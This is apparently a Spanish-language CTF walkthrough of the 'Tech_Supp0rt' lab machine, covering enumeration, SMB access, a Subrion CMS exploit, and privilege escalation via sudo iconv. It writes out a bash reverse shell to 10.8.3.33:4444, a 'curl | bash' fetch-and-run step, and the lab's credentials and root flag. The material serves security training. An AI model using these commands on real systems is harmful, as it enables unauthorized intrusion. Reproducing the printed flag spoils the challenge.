# Tech_Supp0rt

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para visualizar los puertos abiertos y servicios que puedan ser vulnerables.

```
nmap -A -sV -sC -Pn -v -oN nmap_report 10.10.249.253
```

Tenemos 4 puertos abiertos: 
- 80
- 22
- 445
- 139



Resultados del script de los posibles CVE's que haya:




## Fuzzing web

Accedemos al sitio web. Es simplemente una página principal de apache.



Usamos`feroxbuster` para buscar más directorios.

```
feroxbuster --url http://10.10.249.253/ -C 404 --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  
```

Encontramos:
- /test
- WordPress



Enumeramos a través del protocolo SMB con`enum4Linux`.

```
enum4linux 10.10.249.253
```


Accedemos al directorio de`/test`. Pero no podemos hacer gran cosa porque esta lleno de popups de alertas.



Después de unos minutos, `enum4linux`nos ha encontrado el usuario`scamsite`:



Intentamos acceder por samba a `websrv`. Le damos a Intro en la contraseña y entramos como anónimo.

```
smbclient \\\\10.10.249.253\\websvr
```

Encontramos un fichero llamado `enter.txt`.



Nos lo descargamos y salimos.

```
get enter.txt
exit
```



Mostramos el contenido del fichero y están los credenciales del admin en wordpress además de un directorio nuevo llamado `/subrion:



`/subrion`descubrimos que tiene un `robots.txt`.



Accedemos a`/panel`.

```
http://10.10.249.253/subrion/panel/
```


## Cracking the password

Volvemos a los credenciales obtenidos anteriormente del admin.

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
```

Copiamos la contraseña y nos vamos a `CyberChef`. 



Escribimos`magic`en el buscador y lo arrastramos a la receta del centro:


Ponemos la contraseña en el input y nos dice que es Base58 y la contraseña es `Scam2021`.




Y ahora si pudimos acceder al panel de control con la cuenta de admin.



## Escalada de privilegios

Teniendo el nombre de usuario y la contraseña, tenemos una shell utilizando el siguiente script:

https://www.exploit-db.com/exploits/49876

Usaremos el siguiente comando:

```
python3 49876.py -u http://10.10.249.253/subrion/panel/ -l admin -p Scam2021
```

Una vez completado, accedemos automáticamente con el exploit de Subrion CMS con la shell de python:



Creamos un fichero en el host de Kali.

```
nano helloworld.sh
```

Con el siguiente contenido:

```
#! /bin/bash

bash -i >& /dev/tcp/10.8.3.33/4444 0>&1
```

>La IP es la del puerto en escucha que tenemos en Kali.

Abrimos un servidor http con python por el puerto 8080.

```
python3 -m http.server 8080 
```


Escuchamos por el puerto 4444 con `netcat`:

```
nc -nvlp 4444
```

Descargamos y ejecutamos el script en la shell de python que tenemos abierta en la otra terminal:

```
curl 10.8.3.33:8080/helloworld.sh | bash
```

El puerto 4444 que teniamos en escucha establece la conexión.






Nos ubicamos en la siguiente ruta:

```
cd /var/www/html/wordpress
```

Mostramos el fichero de`wp-config.php`:

```
cat wp-config.php
```

Y obtenemos la contraseña:

```
ImAScammerLOL!123!
```


Logeamos en el sitio lleno de popups de antes con los credenciales obtenidos.

Ejecutamos una shell de python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh -i
```


Entramos con el usuario`scamsite`:

```
su scamsite
ImAScammerLOL!123!
```


Comprobamos las SUID:

```
find / -user root -perm -4000 -print 2>/dev/null
sudo -l
```

Comprobamos si gtfobins, iconv pueden funcionar con privilegios

```
sudo -u root iconv -f 8859_1 -t 8859_1 "/root/root.txt"
```

Y obtenemos la flag del root:

```
851b8233a8c09400ec30651bd1529bf1ed02790b
```



